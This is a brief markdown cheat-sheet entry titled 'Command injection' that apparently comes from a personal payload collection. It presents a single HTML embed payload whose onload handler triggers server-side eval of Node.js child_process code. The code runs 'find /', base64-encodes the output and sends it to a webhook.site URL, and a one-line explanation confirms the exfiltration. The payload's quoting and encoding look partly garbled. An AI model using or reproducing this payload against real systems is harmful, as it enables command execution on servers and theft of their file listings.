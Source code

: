 ```yaml
---
title: Command injection
tags:
  - payload
  - infosec
  - injections
---
```

# With webhook

```html
<embed src=1 onload="fetch(./?eval=require( 'child_process' ).spawnSync( 'find', ['/']).stdout.toString()).then(a=>a.text()).then(a=>fetch('https://webhook.site/ae0bd822-b34b-4e87-aa65-3c22bc4c9999?c=%27+btoa(a)))%22%3E
```

*Command will exec a find command in location `/` after that send all that to plain text to webhook in URL `https://webhook.site/...`*

